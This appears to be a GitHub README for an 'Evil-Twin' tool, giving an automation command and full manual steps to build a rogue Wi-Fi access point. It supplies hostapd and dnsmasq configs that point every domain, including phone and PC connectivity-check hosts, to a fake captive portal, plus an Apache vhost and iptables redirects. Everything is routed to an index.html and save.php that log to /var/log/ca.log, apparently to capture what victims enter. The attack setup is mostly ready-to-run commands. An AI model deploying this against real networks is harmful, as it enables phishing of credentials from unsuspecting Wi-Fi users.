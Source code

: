 # Evil-Twin
Set up your LAB
## If you like things Authomation, Use:
```python
python3 EvilT.py --iface wlan0 --ssid "MyLan" --channel 1 --network 10.0.0.0/24
```

## If you like things Manual, Use:

### 1) Installation all pachages:
```bash
sudo apt update
sudo apt install -y apache2 php libapache2-mod-php
sudo apt install -y hostapd dnsmasq lighttpd php
```

### 2) Setting up wlan0 Interface:
```bash
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip addr add 192.168.50.1/24 dev wlan0
sudo ip link set wlan0 up
```

### 3) configure dnsmasq.conf file:
```bash
interface=wlan0
bind-interfaces
no-resolv
log-queries

dhcp-range=192.168.50.10,192.168.50.100,12h
dhcp-option=3,192.168.50.1
dhcp-option=6,192.168.50.1

address=/#/192.168.50.1

address=/captive.apple.com/192.168.50.1
address=/www.msftconnecttest.com/192.168.50.1
address=/connectivitycheck.gstatic.com/192.168.50.1
```

### 4) configure hostapd.conf file:
```bash
interface=wlan0
driver=nl80211
ssid=TestNetworkName 
hw_mode=g
channel=6
auth_algs=1
wmm_enabled=0
```

### 5) configure a2enmod:
```bash
sudo systemctl start apache2
sudo a2enmod rewrite
sudo a2enmod headers
sudo systemctl restart apache2
```

### 5) Create captive Foles:
```bash
sudo mkdir -p /var/www/captive
```

### 6) Create Web Captive Portal:
```bash
sudo mv index.html /var/www/captive/
sudo mv save.php /var/www/captive/
```

### 7) Create log file:
```bash
sudo touch /var/log/ca.log
```

### 8) Permission for file:
```bash
sudo chown www-data:www-data /var/log/ca.log
sudo chmod 640 /var/log/ca.log
```

### 9) Create Vhost:
```bash
nano /etc/apache2/sites-available/captive.conf
```

```bash
<VirtualHost *:80>
    ServerName captive.portal
    ServerAlias *
    DocumentRoot /var/www/captive


    <Directory /var/www/captive>
        AllowOverride All
        Require all granted
    </Directory>

 
    # iOS/macOS
    Alias /hotspot-detect.html /var/www/captive/index.html
    # Android
    Alias /generate_204 /var/www/captive/index.html
    # Windows
    Alias /connecttest.txt /var/www/captive/index.html

   
    RewriteEngine On
    RewriteCond %{REQUEST_URI} !^/save\.php$
    RewriteRule ^.*$ /index.html [L]

    Header always set Cache-Control "no-store, no-cache, must-revalidate, max-age=0"
    Header always set Pragma "no-cache"
    Header always set Expires "0"
</VirtualHost>
```

### 10) Start a2ensite:
```bash
sudo a2ensite captive.conf
sudo a2dissite 000-default.conf
sudo systemctl reload apache2
```


### 11) Create IpTables:
```bash
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-ports 80
sudo iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j REDIRECT --to-ports 53
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 53 -j REDIRECT --to-ports 53
```

### 12) start:
```bash
sudo dnsmasq -C dnsmasq.conf
sudo hostapd hostapd.conf
```

```bash
sudo pkill dnsmasq
sudo dnsmasq -C /full/path/to/dnsmasq.conf
```
